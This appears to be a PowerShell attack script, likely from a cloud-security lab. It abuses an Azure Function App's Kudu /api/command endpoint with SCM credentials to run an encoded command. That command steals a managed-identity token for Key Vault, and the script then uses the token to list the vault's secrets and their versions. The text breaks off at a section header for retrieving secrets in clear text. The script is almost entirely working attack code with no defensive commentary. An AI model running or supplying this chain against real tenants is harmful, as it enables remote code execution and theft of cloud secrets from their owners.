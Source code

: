 #----------------GetTokenForVaultAzureNet-------------------#

#Get Token for kv5zur555.vault.azure.net
$base64AuthInfo = [Convert]::ToBase64String([Text.Encoding]::ASCII.GetBytes(("{0}:{1}" -f $userSCM,$passwordSCM)))
$GeTokenPayload = '$headers=@{"X-IDENTITY-HEADER"=$env:IDENTITY_HEADER};$ClientId ="0de890fb-8bd4-42f3-9de7-5b236df07468";$ProgressPreference = "SilentlyContinue";$response = Invoke-WebRequest -UseBasicParsing -Uri "$($env:IDENTITY_ENDPOINT)?resource=https://vault.azure.net&client_id=$ClientId&api-version=2019-08-01" -Headers $headers;$response.RawContent'
$Encoded64 = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($GeTokenPayload))
$method = "POST"
$URI = "https://sc5-windows-function-app.scm.azurewebsites.net:443/api/command"
$headers = [System.Collections.Generic.Dictionary[string,string]]::new()
$headers.Add("Host", "sc5-windows-function-app.scm.azurewebsites.net")
$userAgent = "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0"
$headers.Add("Authorization", "Basic $($base64AuthInfo)")
$contentType = "application/json"
$body = "{
`"command`":`"powershell -EncodedCommand $($Encoded64)`",
`"dir`":`"C:\\home`"
}
"
$response = (Invoke-WebRequest -Method $method -Uri $URI -Headers $headers -ContentType $contentType -UserAgent $userAgent -Body $body)
$id5VaultAzureNetToken = (($response.Content).Split('"')[6]).split("\")


#----------------GetSecrets-------------------#

$method = "GET"
$URI = "https://kv5zur555.vault.azure.net:443/secrets?api-version=7.3"
$headers = [System.Collections.Generic.Dictionary[string,string]]::new()
$headers.Add("Host", "kv5zur555.vault.azure.net")
$headers.Add("Accept", "text/html,application/xhtml+xml")
$headers.Add("Authorization", "Bearer $($id5VaultAzureNetToken)")
$response = (Invoke-WebRequest -Method $method -Uri $URI -Headers $headers -UserAgent $userAgent -Body $URIParams)
$uriWsecre = ([Regex]::Match( $response.Content,'(?s)https(://.*)').Groups.Value).split('"')[0]


#----------------GetSecretsVersion-------------------#

$method = "GET"
$URI = "$($uriWsecre)/versions?api-version=7.3"
$headers = [System.Collections.Generic.Dictionary[string,string]]::new()
$headers.Add("Host", "kv5zur555.vault.azure.net")
$headers.Add("Accept", "text/html,application/xhtml+xml")
$headers.Add("Authorization", "Bearer $($id5VaultAzureNetToken)")
$response = (Invoke-WebRequest -Method $method -Uri $URI -Headers $headers -UserAgent $userAgent -Body $URIParams)
$response.Content
$uriWsecreVersion = ([Regex]::Match( $response.Content,'(?s)https(://.*)').Groups.Value).split('"')[0]

#----------------GetSecretsClearText-------------------#
